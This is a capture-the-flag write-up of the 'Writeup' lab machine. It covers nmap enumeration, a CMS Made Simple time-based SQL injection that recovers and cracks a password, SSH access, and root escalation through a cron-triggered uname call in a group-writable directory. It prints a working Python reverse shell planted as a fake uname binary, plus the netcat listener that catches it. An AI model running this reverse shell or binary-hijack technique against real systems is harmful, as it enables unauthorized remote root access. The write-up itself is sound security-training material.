



# Writeup

Author: jkr

This box was fairly interesting, with the attacker having to capitalize on a CVE exploit to gain credentials to get the initial foothold, followed by exploiting some improper directory permissions to gain our privilege escalation.

## Nmap Enumeration

```
Nmap scan report for 10.10.10.138
Host is up (0.33s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.63 seconds
```

From our initial nmap enumeration, we can see that there are 2 ports open, 22 and 80, serving ssh and http service respectively. We can also note that there is a robots.txt file on the web server that may prove interesting.


## Web Enumeration

When we first take a look at the index.html page




It tells us that there is a anti-DDoS implementation in place, which bans IPs that send too many 40x requests. This means we cannot do standard web directory enumeration. Taking a look at the robots.txt page



we can see a directory called writeup and navigating there, it has its own index.html page. Using firefox's wappalyzer plugin, we can see the services hosting the page, namely CMS made simple, PHP as the language it's written in, and a Debian Operating System for it's server.



Since there seems to be very few attack vectors on this page, we can try looking up some common web exploits that may help us with our foothold. 

We start off with CMS made simple and do a searchsploit on that.

```
 Exploit Title                                                                                                             |  Path
                                                                                                                           | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)                                         | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                                                                    | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                                                                    | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                                                                 | exploits/php/webapps/29272.txt
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                                                                     | exploits/php/webapps/29941.txt
CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vulnerabilities                                                    | exploits/php/webapps/32668.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities                                                                          | exploits/php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution                                                                                | exploits/php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                                                       | exploits/php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Upload                                                           | exploits/php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion                                                                               | exploits/php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure                                                                              | exploits/php/webapps/9407.txt
CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site Scripting                                                        | exploits/php/webapps/33643.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities                                                                           | exploits/php/webapps/11424.txt
CMS Made Simple 1.7 - Cross-Site Request Forgery                                                                           | exploits/php/webapps/12009.html
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion                                                              | exploits/php/webapps/34299.py
CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Request Forgery                                                    | exploits/php/webapps/34068.html
CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                                                           | exploits/php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution                                                                              | exploits/php/webapps/44192.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                                                              | exploits/php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                                                              | exploits/php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                                                            | exploits/php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                                                                                   | exploits/php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                                                           | exploits/php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                                                      | exploits/php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload                                             | exploits/php/webapps/46546.py
--------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Looking at the unauthenticated exploit modules, we can try the SQL injection for versions lower than 2.2.10, which is the current stable version released.

## Exploit

We can copy the script over to our local directory and look at the usage syntax. 

```
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

The script requests for a url target and since we might get a hash, we might as well try cracking it. the script also requires us to change the ```TIME``` variable as it does a time-based SQL exploit. The time-based exploit works by executing a sleep function when the query executes successfully. This can allow us to do blind injections with a dictionary of ASCII characters to find information such as password hashes. Using the rockyou wordlist to crack the hash, we get a password!

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

After getting the password, we can see if it works as a ssh login!

```
 ⚡ root@kali  ~/writeup  ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep  1 11:14:29 2019 from 10.10.14.34
jkr@writeup:~$ wc -c user.txt 
33 user.txt
```

## Privilege Escalation

Running LinEnum.sh on the box, 

```
[-] Kernel information:
Linux writeup 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux

.
.
.
.

```
Some useful information about the kernel, it's running a 64 bit Debian 4.9 version. Other than that, nothing really interesting from the output.

Using pspy64 to check the services running on the machine, we see that there's a cleanup service executed as a cron job
```
2019/09/01 11:40:01 CMD: UID=0    PID=4956   | /usr/sbin/CRON 
2019/09/01 11:40:01 CMD: UID=0    PID=4957   | /usr/sbin/CRON 
2019/09/01 11:40:01 CMD: UID=0    PID=4958   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
```

which executes with root permissions.

Looking around the / folder, we can see some improper directory permission configurations, namely, the /usr/local directory, which gives those under the group staff write access to the bin/sbin directory. Since we are under the staff group:
```
jkr@writeup:/usr/local$ groups jkr
jkr : jkr cdrom floppy audio dip video plugdev staff netdev
```
If we can modify binaries here, we may be able to execute it with escalated privileges!
```
drwx-wsr-x  2 root staff 20480 Apr 19 04:11 bin
```

### Exploit

Playing around with spawning sessions while looking at the pspy64 output, we can see that the machine does a call to uname straight after the env for the user is being set.

```
2019/09/01 11:43:33 CMD: UID=0    PID=4973   | run-parts --lsbsysinit /etc/update-motd.d 
2019/09/01 11:43:33 CMD: UID=0    PID=4974   | uname -rnsom 
2019/09/01 11:43:33 CMD: UID=0    PID=4975   | sshd: jkr [priv]  
```

Maybe we can taint the uname binary in the /usr/local/sbin folder and get a root shell!

Uname binary:
```
 ⚡ root@kali  ~/writeup  cat uname 
#!/usr/bin/env python

import subprocess
import os
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.26",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

Porting it over on the machine and moving it to the /usr/local/sbin directory, we can set up a listener on 1234, and catch the shell when uname is executed on a new ssh login.

```
 ⚡ root@kali  ~/writeup  nc -lvnp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.138.
Ncat: Connection from 10.10.10.138:36200.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# wc -c root.txt
33 root.txt
# whoami
root
```
Got a root shell! Learned quite a bit about file permissions and really to be observant about the different process running that can be useful for exploitation. Hope you learned as much from this box as I did!


